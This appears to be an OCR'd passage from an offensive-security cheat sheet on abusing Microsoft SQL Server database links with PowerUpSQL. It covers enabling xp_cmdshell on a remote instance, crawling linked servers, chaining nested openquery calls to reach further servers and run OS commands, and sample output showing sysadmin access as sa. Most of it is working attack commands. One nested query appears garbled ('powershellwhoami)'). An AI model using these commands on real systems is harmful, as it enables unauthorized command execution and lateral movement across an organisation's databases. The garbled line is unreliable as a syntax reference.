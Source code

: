 ```bash
# If AV is enabled run cradled scripts with functions inline with the script
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "<Instance>"
Get-SQLServerLinkCrawl -Instance <Instance> "exec master..xp_cmdshell 'whoami'" -Query

# Scan for misconfigurations and vulnerabilities
Invoke-SQLAudit -Verbose -Instance <Server>
```

#### SQL Commands

```bash
# Search for database links
select * from master..sysservers

# Manually searching for Database Links
select * from openquery("<Server>",'select * from master..sysservers')

# Openquery queries can be chained to access links within links (nested links)
select * from openquery("dcorp-sql1",'select * from openquery("<Server>",''select * from master..sysservers'')')

# From the initial SQL server, OS commands can be executed using nested link queries
select * from openquery("dcorp-sql1",'select * from openquery("<Server>",''select * from openquery("eu-sql.eu.eurocorp.local",''''select@@version as version;exec master..xp_cmdshell "powershellwhoami)'''')'')')
```

### MSSQL - PowerupSQL Exploit Example

Search for accessible instances in current domain

```bash
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

ComputerName                           Instance                                    Status
------------                           --------                                    ------
mssql-srv.security.local             mssql-srv.security.local,1433                Accessible
Mgmtsrv01.security.local             mgmtsrv01.security.local,1433                Not Accessible
```

Run the `Get-SQLServerLinkCrawl` on an accessible instance.

```bash
Get-SQLServerLinkCrawl -Instance mssql-srv.security.local -Verbose


Version     : SQL Server 2017
Instance    : mssql-master-srv
CustomQuery :
Sysadmin    : 1
Path        : {mssql-srv, mssql-srv-eu, mssql-master-srv}
User        : sa
Links       :
```
